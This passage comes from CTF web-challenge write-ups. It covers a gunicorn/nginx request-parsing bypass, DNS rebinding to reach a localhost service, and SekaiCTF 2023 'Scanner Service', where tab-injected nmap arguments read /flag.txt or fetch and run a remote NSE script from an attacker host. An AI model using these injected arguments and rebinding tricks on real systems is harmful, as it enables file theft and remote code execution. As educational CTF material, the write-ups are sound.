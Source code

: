 So, theoretically, accessing the `/generate` path should not be possible. However, you can bypass it by exploiting the difference between gunicorn and nginx parsers:

```
POST /generate{chr(9)}HTTP/1.1/../../ HTTP/1.1
```

Related ticket: https://github.com/benoitc/gunicorn/issues/2530

After bypassing, you can use the `/generate` function to generate a PDF. However, because this service blocks some keywords, it is not possible to directly convert the flag into a PDF.

The solution is to use DNS rebinding to POST to `http://localhost:7778` and retrieve the response.

For example, if we have a domain `example.com` with two A records, one pointing to the actual IP and the other pointing to 0.0.0.0, when the admin bot visits `http://example.com:7778/`, it resolves the actual IP and successfully retrieves the page.

At this point, we shut down the server and execute `fetch('http://example.com:7778/generate')`. Since the original IP is no longer accessible, the browser will fallback to 0.0.0.0 and successfully send the request to the desired location. Because it is same-origin, we can also retrieve the response.

For more details, please refer to:
1. https://github.com/nccgroup/singularity
2. https://larry.sh/post/corctf-2021/#:~:text=receive%20the%20flag.-,saasme,-(2%20solves)

### lemon-csp (1 solve)

Found a CSP bypass for 0-day, no public solution available.

### 0day (1 solve)

This challenge involves finding a 1-day for VM2, no public solution available.

## SekaiCTF 2023

The source code for the challenges is available here: https://github.com/project-sekai-ctf/sekaictf-2023/tree/main/web

### Scanner Service (146 solves)

Input the port and host, and the following code will be executed:

``` ruby
nmap -p #{port} #{hostname}
```

However, the input data goes through a sanitizer with character restrictions.

Tabs can be used, so you can use tabs to add parameters. During the competition, `-iL /flag.txt -oN -` was used to pass the challenge, redirecting the output to stdout, or using `/dev/stdout` is also valid.

The official writeup suggests using the `http-fetch` script to download the file to the local machine, and then running `nmap --script` to execute that script:

```
--script http-fetch -Pn --script-args http-fetch.destination={DOWNLOAD_DIR},http-fetch.url={NSE_SCRIPT}
--script={DOWNLOAD_DIR}/{LHOST}/{LPORT}/{NSE_SCRIPT}
```
